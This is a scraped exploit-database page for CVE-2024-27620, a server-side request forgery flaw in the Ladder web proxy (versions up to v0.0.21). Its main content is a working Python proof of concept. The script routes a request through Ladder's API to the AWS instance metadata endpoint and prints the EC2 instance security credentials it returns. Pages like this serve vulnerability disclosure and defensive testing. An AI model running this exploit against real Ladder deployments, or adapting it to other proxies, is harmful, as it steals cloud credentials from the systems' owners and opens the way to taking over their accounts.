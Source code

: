 ```yaml
---
title: Ladder v0.0.21 - Server-side request forgery (SSRF) exploit
url: https://sploitus.com/exploit?id=EDB-ID:51869&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-03-11
fetch_date: 2025-10-04T12:07:30.144546
---
```


# Ladder v0.0.21 - Server-side request forgery (SSRF) exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Ladder v0.0.21 - Server-side request forgery (SSRF) CVE-2024-27620

2024-03-10 | CVSS 7.5

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51869
# Exploit Title: Ladder v0.0.21 - Server-side request forgery (SSRF)
# Date: 2024-01-20
# Exploit Author: @_chebuya
# Software Link: https://github.com/everywall/ladder
# Version: v0.0.1 - v0.0.21
# Tested on: Ubuntu 20.04.6 LTS on AWS EC2 (ami-0fd63e471b04e22d0)
# CVE: CVE-2024-27620
# Description: Ladder fails to apply sufficient default restrictions on destination addresses, allowing an attacker to make GET requests to addresses that would typically not be accessible from an external context.  An attacker can access private address ranges, locally listening services, and cloud instance metadata APIs

import requests
import json

target_url = "http://127.0.0.1:8080/api/"
imdsv1_url = "http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance"

r = requests.get(target_url + imdsv1_url)
response_json = json.loads(r.text)
print(response_json["body"])
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)